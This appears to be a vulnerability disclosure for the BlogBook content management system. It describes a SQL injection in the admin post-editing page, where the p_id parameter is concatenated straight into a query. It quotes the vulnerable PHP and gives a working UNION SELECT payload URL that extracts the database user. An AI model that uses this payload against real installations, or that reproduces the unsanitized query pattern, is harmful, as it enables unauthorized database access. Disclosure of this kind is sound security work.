

# BlogBook /admin/posts.php edit_post p_id Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php edit_post p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists within a core post management interface of the BlogBook application, likely controlled by a source GET parameter (e.g., when source is edit_post or a default view). When a p_id GET parameter is provided, its value (stored as $edit_post_id) is directly concatenated into an SQL query (SELECT * FROM posts WHERE post_id={$edit_post_id}) without proper sanitization. This allows an attacker, potentially needing specific privileges to access this administrative functionality, to inject and execute arbitrary SQL commands, leading to unauthorized data access or manipulation.

## Vulnerability Point

`blogbook-main/admin/includes/edit_post.php:8`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
if(isset($_GET['p_id'])){
    $edit_post_id= $_GET['p_id'];
}


$query="SELECT * FROM posts WHERE post_id={$edit_post_id}";
                            $select_posts_by_id=mysqli_query($connection,$query);   
                            while($row=mysqli_fetch_assoc($select_posts_by_id)){
                               global $cat_id;
                                 $post_id=$row['post_id'];
                                 $post_author=$row['post_author'];
                                 $post_title=$row['post_title'];
                                 $post_category_id=$row['post_category_id'];
                                 $post_image=$row['post_image'];
                                 $post_tags=$row['post_tags'];
                                 $post_content=$row['post_content'];
                                 $post_comment_count=$row['post_comment_count'];
                                 $post_date=$row['post_date'];
                                 $post_status=$row['post_status'];
                            }
```
## Payload

`http://localhost/admin/posts.php?source=edit_post&p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`


